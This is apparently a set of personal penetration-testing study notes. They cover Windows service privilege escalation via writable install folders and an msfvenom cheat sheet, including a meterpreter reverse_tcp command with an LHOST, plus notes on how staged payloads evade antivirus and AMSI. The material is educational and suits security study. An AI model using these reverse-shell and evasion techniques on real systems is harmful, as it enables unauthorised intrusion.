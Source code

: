 Usually that files are installed on system folders but:
- Some installers change the permissions on the installed folders, making the services vulnerable.
- An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

For tis example, check the folder permissions
![Pasted image 20240821211411.png|600](/img/user/attachments/Pasted%20image%2020240821211411.png)
The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Generate payloads
- Access all payloads available in the Metasploit framework.
- Create payloads in many different formats (PHP, exe, dll, elf, , aspx, .war, .py, etc.)
- Different target systems (Apple, Windows, Android, Linux, etc.).
- Used extensively in **lower-level exploit** development to generate **hexadecimal shellcode** when developing something like a **Buffer Overflow exploit**

| Option                                               | Description                                         |
| ---------------------------------------------------- | --------------------------------------------------- |
| `msfvenom -l payloads`                               | Show payloads                                       |
| `msfvenom --list payloads`                           | list supported output formats                       |
| `msfvenom -p payload`                                | Select a payload                                    |
| `msfvenom -p cmd/unix/reverse_netcat --list-options` | List options                                        |
| `R`                                                  | Set `R` at final of code is to specify reverseshell |

```shell
payload options
```
```sh
msfvenom --list payloads
```
```sh
msfvenom -s linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=443
```
# Non staged - Single
- send payload in 1 file
- easier to use and catch
- easier for an antivirus or intrusion detection program to discover and remove.
- Stageless payloads are denoted with underscores (`_`)
# Stages
- send payload in some files or parts
- harder to use,
- **first part** is called the _stager_
- executed directly on the server itself.
- It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself.
- preventing it from touching the disk where it could be caught by traditional anti-virus solutions.
- connects to the listener and uses the connection **to load the real payload**
- Thus the payload is **split** into **two parts**
	- a small **initial stager**
	- then the bulkier **reverse shell code** which is downloaded when the stager is activated
- Staged payloads require a special listener, usually the Metasploit Multihandler
- Modern day antivirus solutions will also make use of the [[AMSI\|AMSI]] to detect the payload
- are denoted with another forward slash (`/`).